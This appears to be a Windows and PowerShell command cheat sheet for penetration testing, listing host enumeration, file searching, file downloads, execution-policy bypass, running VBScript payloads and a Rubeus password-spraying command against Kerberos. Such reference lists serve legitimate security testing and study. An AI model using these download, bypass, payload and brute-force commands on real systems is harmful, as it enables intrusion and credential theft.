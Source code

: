 ```bash
whoami
whoami /priv
```

```bash
systeminfo
wmic product get name,version,vendor
```

```bash
ipconfig /all

regquery

type
Get-Content FILE

ls
dir
Get-ChildItem
Get-ChildItem -Path FILE | fl *
Get-ChildItem -Path PATH -Include SEARCH_STRING -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path PATH -Recurse | Select-String -pattern PATTERN
Get-Acl

Get-Command

Get-FileHash -Algorithm ALGORITHM FILE

$data = Get-Content 'b64.txt'
[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($data)) | Out-File -Encoding 'ASCII' out.html

Get-NetIPAddress
Get-NetTCPConnection
Test-NetConnection -Port
Get-HotFix

Get-Process

Get-LocalUser
Get-LocalGroup

Get-ScheduledTask

Invoke-WebRequest URL -OutFile FILENAME
(New-Object System.Net.WebClient).Downloadfile(URL, FILENAME)

Set-ExecutionPolicy Bypass -Scope Process
powershell -ExecutionPolicy Bypass -File FILENAME

cscript.exe payload.vbs
wscript payload.vbs
wscript /e:VBScript payload.txt

Rubeus.exe brute /password:Password1 /noticket
```
